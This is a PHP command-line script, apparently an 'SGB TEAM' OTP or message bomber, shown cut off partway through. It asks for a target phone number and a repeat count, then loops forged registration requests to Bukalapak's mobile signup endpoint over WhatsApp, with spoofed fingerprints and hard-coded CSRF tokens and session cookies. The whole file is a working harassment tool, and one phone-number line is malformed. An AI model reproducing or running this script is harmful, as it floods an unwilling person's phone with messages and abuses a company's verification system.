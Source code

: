 <?php
echo "COPYRIGHT : SGB TEAM\n\n";
echo "Nomor Target?\nInput : ";
$nomer = trim(fgets(STDIN));
if(strlen($nomer)==11){
	$nomer = str_replace("0","62".$nomer);
}elseif(strlen($nomer)>12){
	$nomer = str_replace("62","0",$nomer);
}
echo "Target: $nomer (y/n)";
$cek = trim(fgets(STDIN));
if($cek=="n") exit("Stopped!\n");
echo "Jumlah?\nInput : ";
$jumlah = trim(fgets(STDIN));
for($a=0;$a<$jumlah;$a++) {
	$rand1 = md5(rand(12345678,98765432));
	$rand2 = md5(rand(12345678,98765432));
	$rand = array($rand1,$rand2);
	$rand3 = md5($rand[rand(1,2)]);
	$config['headers'] = explode("\n", "Host: m.bukalapak.com
Connection: keep-alive
Content-Length: 134
Origin: https://m.bukalapak.com
X-CSRF-Token: uYUfi93g92mZboBVB4UMwYInorBNOgyYEAbPUTikHht+xseF8BFUgg9qSgQWA9MRy7eL8G/SnbYUGg0JRM1fjw==
User-Agent: Mozilla/5.0 (Linux; Android 7.1.2; Redmi 4X Build/N2G47H) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.91 Mobile Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept: */*
X-Requested-With: XMLHttpRequest
Save-Data: on
Referer: https://m.bukalapak.com/register?from=home_mobile
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,id;q=0.8
Cookie: identity=".$rand1."; browser_id=".$rand2."; _ga=GA1.2.1024758930.1531960985; _vwo_uuid_v2=DE8E70E7E9A8960F05F20FE0ACE87643B|378e4a2f30c36053c1cb833e89ecbc2e; _gid=GA1.2.622427606.1533988422; scs=%7B%22t%22%3A1%7D; spUID=15339884253603c43b2de12.c5b45553; session_id=e95e7511997432af179935abfce90320; __auc=3eed305416528d5f584187b45b2; G_ENABLED_IDPS=google; track_register=true; affiliate_landing_visit=true; mp_51467a440ff602e0c13d513c36387ea8_mixpanel=%7B%22distinct_id%22%3A%20%22164affd88ae1d-0791dbbd558a18-1f20130c-38400-164affd88aff4%22%2C%22utm_source%22%3A%20%22hasoffers-1851%22%2C%22utm_medium%22%3A%20%22affiliate%22%2C%22utm_campaign%22%3A%20%2215%22%2C%22%24initial_referrer%22%3A%20%22%24direct%22%2C%22%24initial_referring_domain%22%3A%20%22%24direct%22%7D; ins-gaSSId=cdd66ffd-18ce-a176-a3c3-26f0ac9ec000_1534027025; lskjfewjrh34ghj23brjh234=elBsSkNBb3VKS3hzZSttTnNKTm5VNk1pWmtzV1A1YldKRm1majAzRFdsSUJtcDJJV0psL0pnOFlBamtJU1NBa1Y2czlQdjZrNlFURDNiRmZqQmNRRXRyeWRTbGV5QUdpQnZjV3JocEc3ak9QeHpWSlpRNTE4eFgzR2FieDVnc2dWaUVoZzVzMEJlMVZwM2NKWk1LaXVwQTZuOXBVR01TUUJ4ejc4MW5MTU5taGYwZ2M0bFdwM05KYy9IcTh3bThsd3dzbSt4bHd4WG9NSklrcHJtT0dHUURURVQ5YVoyb0hLQ3dyUC9NZ2V6UUNFYmVGbE84REtqOHZlKzBZUGtiRS0tV3pMamNPNDhKT1FoZ202Q1BkNUJ5dz09--5a445aefe0c06b736c22e9f359ee3b7273058175; insdrSV=32; _td=7e03facb-a77c-4ce7-8b83-2427781c78c7");
	global $config;
	$ar = http_build_query(array(
				'feature' => 'phone_registration',
				'feature_tag' => '',
				'manual_phone' => $nomer,
				'device_fingerprint' => $rand3,
				'channel' => 'WhatsApp'
                             
